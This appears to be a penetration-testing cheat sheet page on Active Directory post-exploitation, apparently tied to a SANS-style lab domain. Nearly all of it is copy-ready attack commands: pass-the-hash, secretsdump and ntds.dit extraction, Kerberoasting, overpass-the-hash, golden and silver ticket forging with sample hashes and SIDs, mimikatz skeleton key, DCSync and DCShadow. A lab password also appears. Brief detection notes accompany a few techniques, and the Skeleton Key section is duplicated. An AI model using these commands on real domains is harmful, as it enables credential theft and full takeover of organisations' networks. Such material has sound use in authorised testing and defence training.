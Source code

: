 ```yaml
---
title: Active Directory
category: Post-Exploitation
order: 89
---
```


>**Pass-The-Hash**

mimikatz | <code> sekurlsa::pth /user:username /domain:domain.local /dc:dc01.sec560.local </code>
xfreerdp | <code> xfreerdp /u:username /d:domain.local /pth:0b6c42339fca6848b5f8eed5f18e6a45  /v:10.10.10.20 </code>

>**Getting Hashes**

**Impacket**

{% highlight bash %}
#Saves SAM/LSA/Cached Creds from registry to %SYSTEMROOT%\\Temp
#Domain Users / hashes using [MS-DRDS] DRSGetNCChanges() replication
#Extract NTDS.dit via vssadmin with smbexec
#Consider using -exec-method wmiexec
impacket-secretsdump sec560.local/svcsqlserver:Jabbathehut23@10.10.10.5
impacket-secretsdump sec560.local/svcsqlserver:Jabbathehut23@10.10.10.5 -just-dc-user krbtgt
{% endhighlight %}

**Shadow copy of ntds.dit**

{% highlight bash %}
C:\>vssadmin.exe list shadows
C:\>vssadmin create shadow /for=c:
C:\>vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'c:\'
    Shadow Copy ID: {8ce7d8aa-1257-4478-9869-7082d7c9664e}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

C:\>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\extraction\ntds.dit

C:\>get C:\extraction\system
[*] Downloading C:\\extraction\system
C:\>get C:\extraction\ntds.dit
[*] Downloading C:\\extraction\ntds.dit

$ impacket-secretsdump -ntds ntds.dit -system system -outputfile dump LOCAL
{% endhighlight %}


>**Kerberoasting**

Request RC4 service tickets from the DC using SPN values.  Focus on service accounts (not computer accounts) since they could have weaker passwords

{% highlight bash %}
impacket-GetUserSPNs -request sec560.local/john.doe -dc-ip 10.10.10.5
{% endhighlight %}

>**OverPass-the-Hash**

Even if NTLMv2 authentication is disabled, the NTLM hash can be used to "kick off" the kerberos process and request tickets for a certain service.

Mimikatz:
{% highlight bash %}
kerberos:ptt
{% endhighlight %}

{% highlight bash %}
impacket-getTGT -hashes aad3b435b51404eeaad3b435b51404ee:735c64192b87eb71a512782fdab380a9 -dc-ip 10.10.10.5 domain.local/john.doe
export KRB5CCNAME=john.doe.ccache
impacket-wmiexec -k -no-pass -dc-ip 10.10.10.5 hostnameHere whoami
{% endhighlight %}

>**Golden Ticket**

**Mimikatz/Impacket:** Obtain domain information:

{% highlight bash %}
impacket-wmiexec domain.local/svcsqlserver:Password@10.10.10.5 ipconfig /all
...Primary DNS Suffix...

impacket-lookupsid domain.local/svcsqlserver:Password@10.10.10.5 
...Domain SID...
 {% endhighlight %}


**Mimikatz:** Crafted ticket granting ticket (TGT) using the krbtgt nt hash 

{% highlight bash %}
kerberos::golden /krbtgt:e19ccf75ee54e06b06a5907af13cef42 /admin: root /domain:domain.private /sid:s-1-5-21-1458117341-2101632361-2707338445-500 /ticket:golden.ticket.bin

kerberos::ptt golden.ticket.bin

 {% endhighlight %}

**Impacket:** Crafted ticket granting ticket (TGT) using the krbtgt nt hash 

{% highlight bash %}
impacket-ticketer -domain domain.local -domain-sid S-1-5-21-721047592-4068106649-2889670365 -aesKey 8f20a34aec155f272a065b0314ec68700bcba9e5e2b242015133fc8cf793421d Administrator
impacket-ticketer -domain domain.local -domain-sid S-1-5-21-721047592-4068106649-2889670365 -nthash 5525e655c06299c7e4179e2cc5621fb3 Administrator
{% endhighlight %}

**Impacket:** Export the ticket to the Kali and Add Target Host (to log into) to /etc/hosts

{% highlight bash %}
export KRB5CCNAME=Administrator.ccache
{% endhighlight %}


**Impacket:** Run a command using the ticket:

{% highlight bash %}
impacket-wmiexec -k -no-pass -dc-ip 10.10.10.5 hostnameHere whoami 
{% endhighlight %}


>**Silver Ticket**

If you obtain the password for a  processesses running as a services (e.g., local system, network service, local service)(not computer accounts).  You can forge a TGS with increased privs in the privilege Attribute Certificate (PAC). Usable if golden ticket gets detected or krbtgt hash is changed.

**Mimikatz**
{% highlight bash %}
(note rc4 is NTLM hash for the target box - dc01)
kerberos::golden /sid:S-1-5-21-721047592-4068106649-2889670365 /domain:sec560.local /target:dc01.sec560.local /service:cifs /rc4:c918697c8e0c3c0dd936e3eef1f563d2 /user:regularjoe /ptt
{% endhighlight %}

**Impacket**
{% highlight bash %}
(note NTLM is NTLM hash for the target box - dc01)
$ impacket-ticketer -domain sec560.local -domain-sid S-1-5-21-721047592-4068106649-2889670365 -nthash c918697c8e0c3c0dd936e3eef1f563d2 -spn CIFS/dc01.sec560.local regularjoe
{% endhighlight %}


>**Skeleton Key**

Patches memory for kerberos (only RC4) to allow login to any account using a predefined password (e.g., mimikatz)

{% highlight bash %}
priviledge::debug
misc::skeleton
{% endhighlight %}

>**Skeleton Key**

Patches memory for kerberos (only RC4) to allow login to any account using a predefined password (e.g., mimikatz)

{% highlight bash %}
priviledge::debug
misc::skeleton
{% endhighlight %}


>**DC Sync**

Uses directory replication service remote protocol (detectable by seeing DRSR traffic to a non-DC) to obtain password hashes for domain accounts.

**Mimikatz**
{% highlight bash %}
lsadump::dcsync /user:Administrator
{% endhighlight %}

>**DC Shadow**

A workstation is upgraded to a DC, a change is made (e.g., change a password to target account), and then replicated to the DC.  Windows event logs normally take place on the server that the change is made on, which won't happen because it was on the worksation that was upgraded. Detectable due to traffic to a non-DC and events for temporary creation of a DC and deletion (5137 object creation and 5141 object deletion)

{% highlight bash %}
Mimikatz Instance 1 (NT Authority/System Context):
lsadump::dcshadow /object:CN=Administrator,CN=Users,DC=SYNCTECHLABS,DC=COM /attribute:description /value:"DCShadow was here"

Mimikatz Instance 2 (Domain Admin Context):
lsadump::dcshadow /push 

{% endhighlight %}

>**Mind Map**



>**Tools**

* [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)


